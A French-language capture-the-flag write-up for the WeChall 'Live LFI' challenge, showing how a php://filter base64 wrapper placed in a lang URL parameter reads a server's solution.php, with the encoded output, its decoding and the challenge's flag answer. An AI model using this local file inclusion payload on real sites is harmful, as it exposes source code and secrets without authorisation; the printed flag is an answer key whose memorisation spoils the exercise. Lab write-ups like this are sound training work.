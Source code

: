 # Live RFI
Cette fois, j'ai résolu deux des séries Live de WeChall pour pratiquer les techniques LFI en utilisant PHP Wrapper .Tout d'abord,
dans le premier Warchall : Live LFI Local File Inclusion, il y a des méthodes d'attaque de base NULL Byte Injection et path,
mais parmi les attaques appliquées, il y a une méthode d'attaque utilisant PHP Wrapper. Dans le cas de Warchall : Live LFI,
vous pouvez utiliser PHP Wrapper pour accéder au fichier en utilisant php://filter/convert.base64-encode/resource=solution.php

Le code "php://filter/convert.base64-encode/resource=solution.php" est une fonctionnalité de PHP qui permet de lire le contenu d'un fichier et de le convertir en base64.
Cela signifie que le contenu du fichier "solution.php" sera encodé en base64 avant d'être retourné.

En d'autres termes, si ce code est utilisé dans un contexte où une URL ou un chemin de fichier est attendu,
il peut être utilisé pour lire le contenu du fichier "solution.php" et le retourner sous forme encodée en base64.
Cela peut être utilisé pour contourner certaines restrictions d'accès aux fichiers ou pour manipuler le contenu des fichiers de manière non autorisée.

Etape à suivre : 
1 - Allez dans le lien LFI (Local File Inclusion) principale => "https://lfi.warchall.net/"
2 - Cliquer sur le logo de langue (choix de langue) => exemple : "https://lfi.warchall.net/index.php?lang=en"
3 - Effacer "en" et remplacer par la methode d'attaque PHP Wrapper => https://lfi.warchall.net/index.php?lang=php://filter/convert.base64-encode/resource=solution.php
4 - après, il donne des plusieur code à decoder : PGh0bWw+Cjxib2R5Pgo8cHJlIHN0eWxlPSJjb2xvcjojMDAwOyI+dGVoIGZhbGcgc2kgbmFlciE8L3ByZT4KPHByZSBzdHlsZT0iY29sb3I6I2ZmZjsiPnRoZSBmbGFnIGlzIG5lYXIhPC9wcmU+CjwvYm9keT4KPC9odG1sPgo8P3BocCAgICAgICAgICAgICAgICAgICMgICBZT1VSX1RST1BIWSAKcmV0dXJuICdTdGVwcGluU3RvbmVzNDJQaWUnOyAjIDwtwrQgPz4K
5 - Après decodage enligne sur "https://www.base64decode.org/" => 
````sh<html>
<body>
<pre style="color:#000;">teh falg si naer!</pre>
<pre style="color:#fff;">the flag is near!</pre>
</body>
</html>
<?php                  #   YOUR_TROPHY 
return 'SteppinStones42Pie'; # <-´ ?>
````
 Solution : **SteppinStones42Pie**
